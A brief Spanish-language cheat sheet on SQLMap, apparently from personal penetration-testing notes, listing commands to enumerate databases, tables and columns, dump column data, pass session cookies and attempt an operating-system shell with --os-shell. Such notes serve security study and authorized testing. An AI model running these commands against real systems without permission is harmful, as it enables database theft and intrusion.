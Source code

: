 #tool 
# ¿Qué es?

**SQLMap** es una herramienta de pruebas de penetración de código abierto que se utiliza para detectar y explotar vulnerabilidades de inyección SQL en aplicaciones web. Esta herramienta se basa en un motor de inyección SQL altamente automatizado que puede detectar y explotar una amplia variedad de vulnerabilidades de inyección SQL en diferentes sistemas de gestión de bases de datos.

# Uso

## Enumerar bases de datos

```bash
sqlmap -u <url_vulnerable> --dbs
```

## Enumerar tablas

```bash
sqlmap -u <url_vulnerable> --dbms mysql --batch -D <database> --tables
```

## Enumerar columnas

```bash
sqlmap -u <url_vulnerable> --dbms mysql --batch -D <database> -T <table> --columns
```
```bash
sqlmap -u <url_vulnerable> --dbms mysql --batch -D <database> -T <table> --C <column1,column2> --dump
```

## Especificar cookies

```bash
sqlmap -u <url_vulnerable> --cookie "PHPSESSID=sahdksajhdjksahdsajkdhsakjdh"
```

## Especificar tipo de DB

```bash
sqlmap -u <url_vulnerable> --dbms mysql
```

## Default

Para que no se nos pregunte acerca de opciones específicas, podemos utilizar la opción **`--batch`**.

## Risk/level

Con **`--risk`** y **`--level`** podemos especificar la cantidad de ataques que probará la herramienta.

## Shell

Con el parámetro **`--os-shell`** podemos tratar de obtener una shell en caso de que sea posible.